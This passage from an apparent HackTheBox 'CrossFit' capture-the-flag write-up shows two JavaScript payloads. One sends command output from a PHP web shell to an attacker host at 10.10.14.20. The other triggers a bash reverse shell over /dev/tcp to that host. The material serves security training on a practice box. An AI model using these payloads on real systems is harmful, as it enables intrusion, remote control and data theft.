 The folder we upload is the development-test.crossfit.htb, because we have read and write acces to it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:23:33.png)

Ok, done, now just make a new XMLHTTPrequest to it, to trigger it

I did a rce.js just to test a cmd exec

```js
// Function created to simplify the debbug, always send as param the value you want to debbug
function debug(debug){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://10.10.14.20:9999/' + debug, true);
        xhr.send();
}

// Function just to try cmd id
function getRCE(){
        var rev = new XMLHttpRequest();
        var url = "http://development-test.crossfit.htb/cmd.php?cmd=id";
        rev.open("GET", url, false);
        rev.send();
        debug(rev.response);
}

getRCE()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:49:43.png)

Now, the reverse shell

```js
// Function created to simplify the debbug, always send as param the value you want to debbug
function debug(debug){
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'http://10.10.14.20:9999/' + debug, true);
        xhr.send();
}

// Function just to get the reverse shell
function getRCE(){
	var rev = new XMLHttpRequest();
	var url = "http://development-test.crossfit.htb/cmd.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.20/443+0>%261'";
	rev.open("GET", url, true);
	rev.send();
}

getRCE()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2007:30:08.png)

